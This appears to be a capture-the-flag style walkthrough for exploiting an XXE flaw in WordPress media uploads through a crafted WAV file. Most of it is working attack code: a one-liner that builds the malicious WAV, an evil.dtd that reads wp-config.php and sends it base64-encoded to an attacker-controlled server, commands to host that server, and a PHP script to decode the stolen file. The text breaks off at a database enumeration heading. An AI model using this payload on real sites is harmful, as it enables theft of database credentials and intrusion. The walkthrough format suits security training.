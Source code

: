 #### 🎵 Create Malicious WAV File
```bash
# Create the payload WAV file
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOUR_SERVER_IP:PORT/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

#### 📄 Create DTD File
```bash
# Create evil.dtd file
cat > evil.dtd << 'EOF'
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://YOUR_SERVER_IP:PORT/?p=%file;'>" >
EOF
```

### 🌐 HTTP Server Setup
```bash
# Start HTTP server to host DTD file
php -S 0.0.0.0:8000

# Alternative with Python
python3 -m http.server 8000
```

### 🎯 WordPress Admin Access
1. **Login** to WordPress admin panel (credentials provided in task)
2. **Navigate** to Media Library
3. **Upload** the `payload.wav` file
4. **Monitor** your HTTP server for the callback

### 🔓 Data Extraction
1. **Capture** the base64 encoded data from HTTP server logs
2. **Decode** the captured data:

```php
<?php 
echo zlib_decode(base64_decode('CAPTURED_BASE64_DATA')); 
?>
```

3. **Execute** the PHP script:
```bash
php decode.php > wp-config.php
```

## 🗄️ Database Enumeration

### 📋 WordPress Configuration Analysis
From the extracted `wp-config.php`:
